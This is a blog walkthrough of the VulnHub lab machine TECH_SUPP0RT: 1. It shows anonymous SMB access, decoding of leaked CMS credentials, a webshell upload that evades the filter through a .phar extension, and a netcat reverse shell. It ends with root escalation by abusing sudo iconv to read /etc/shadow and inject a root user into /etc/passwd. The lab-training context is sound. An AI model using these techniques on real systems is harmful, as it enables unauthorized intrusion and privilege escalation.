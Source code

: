 ```yaml
---
layout: post
title:  "Vulnhub: TECH_SUPP0RT: 1"
date:   2021-06-19 21:00:00 +1000
category: hacking
---
```


## TECH_SUPP0RT: 1
This is [TECH_SUPP0RT: 1](https://www.vulnhub.com/entry/tech_supp0rt-1,708/) from VulnHub. 

>Difficulty: Easy  
Background: The machine acts as a server setup by pop-up scammers which is under maintenance.

Let's go.

## Ports
HTTP, SSH and SMB. Let's begin with SMB.

## SMB
We have anonymous login (I use smbclient) and just one file: *enter.txt*.

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/tech_support]
└─# cat enter.txt                                                                       
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
{% endhighlight %}

So, this implies we have a wordpress installation, and something called subrion which I've never heard of. Heading over to CyberChef with our obfuscated credentials and clicking **magic** gives:

>From_Base58('123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz',false)  
From_Base32('A-Z2-7=',false)  
From_Base64('A-Za-z0-9+/=',true)  
Scam2021	Matching ops: From Base64  
Valid UTF8  
Entropy: 2  

So that's our password for *subrion* (Scam2021).

Now, this is where I had some trouble. The box came in as a VMDK which I don't hate but they never tell you which OS it is. Anyway it's Ubuntu and I set it up, but it was set to NAT. I switched it to Bridged, because that's how I run my Kali and it started to work but then trying to go to *subrion* it kept redirecting to a NAT IP address. Bugger; I've had this before and it makes it pretty much impossible to continue.

I shut everything down, took a snapshot of my Kali and restarted it in NAT mode, then restarted the box; it worked! This was actually a first for me. But we can continue.

## Subrion
We can login easily; it's a CMS. I poke around and upload a webshell but it's only got read and write permission; no execute. Navigating to the file says 'you can't do that' or something along those lines. Now what?

There is an [exploit](https://www.exploit-db.com/exploits/49876). Reading through the code, it appears that **phar** files can be executed, but not other types. Rather than running the exploit script I use the GUI to rename my shell from *shell.php* to *shell.phar* and then visit http://10.0.2.15/subrion/uploads/shell.phar; success!

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/tech_support]
└─# nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.0.2.5] from (UNKNOWN) [10.0.2.15] 49774
Linux TechSupport 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 16:17:49 up 13 min,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash");'
www-data@TechSupport:/$
{% endhighlight %}

## Support
We know there is a Wordpress site so I go to /var/www/html/wordpress/ and check wp-config.php for creds:

{% highlight shell %}
# snip
/** MySQL database username */
define( 'DB_USER', 'support' );

/** MySQL database password */
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );
# snip
{% endhighlight %}

This can be used to login to mysql, but it's alse reused for our next user, whose name we get from /etc/passwd:

{% highlight shell %}
www-data@TechSupport:/var/www/html/wordpress$ su scamsite
su scamsite
Password: ImAScammerLOL!123!

scamsite@TechSupport:/var/www/html/wordpress$ sudo -l
sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
scamsite@TechSupport:
{% endhighlight %}

So; according to [GTFOBins](https://gtfobins.github.io/gtfobins/iconv/) we can read and write files with iconv, but there is one catch. The example given for writing files is:

```
LFILE=file_to_write  
echo "DATA" | iconv -f 8859_1 -t 8859_1 -o "$LFILE"
```

Where the call to iconv is not the first thing. I usually find with these sudo things that this won't work; the iconv call needs to be first. Anyway, I can read /etc/shadow and grab the root hash with this; that's okay but it probably won't break easily (I don't try for long). What about SSH? Yes, there is a root SSH key at /root/.ssh/id_rsa and we can read that. However, even though the key is not encrypted, we can't login with it. Every time I try, I am prompted for a password - presumably something is not right in the server configuration.

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/tech_support]
└─# scp -i id_rsa root@10.0.2.15:/etc/shadow shadow                                     
root@10.0.2.15's password: 
Permission denied, please try again.
{% endhighlight %}

Debug mode doesn't help, and even reading /var/log/auth.log with the iconv trick doesn't help:

{% highlight shell %}
Jun 19 16:30:14 TechSupport sudo: scamsite : TTY=pts/0 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/iconv -f 8859_1 -t 8859_1 /var/log/auth.log
Jun 19 16:30:14 TechSupport sudo: pam_unix(sudo:session): session opened for user root by (uid=0)
Jun 19 16:30:14 TechSupport sudo: pam_unix(sudo:session): session closed for user root
Jun 19 16:30:46 TechSupport sshd[2035]: Connection closed by 10.0.2.5 port 37610 [preauth]
{% endhighlight %}

Now what? Well, we can use iconv for a file write by modifying the GTFOBins code a little. I want to add the line:

```
root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash
```

to /etc/passwd. I make a copy of /etc/passwd to /dev/shm/backup and then append the line in:

```
printf "root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash\n" >> /dev/shm/backup
```

And then I can use inconv to replace /etc/passwd with the modified version using redirection:

{% highlight shell %}
scamsite@TechSupport:/$ LFILE=/etc/passwd
LFILE=/etc/passwd
scamsite@TechSupport:/$ sudo -u root /usr/bin/iconv -f 8859_1 -t 8859_1 -o "$LFILE" < /dev/shm/backup
scamsite@TechSupport:/$ su root2
su root2
Password: mrcake

root@TechSupport:/# id;hostname;date
id;hostname;date
uid=0(root) gid=0(root) groups=0(root)
TechSupport
Sat Jun 19 16:39:13 IST 2021
root@TechSupport:
root@TechSupport:~# cat root.txt
cat root.txt
851b8233a8c09400ec30651bd1529bf1ed02790b  -
{% endhighlight %}

So; a few challenges along the way but we got there in the end. Huzzah!
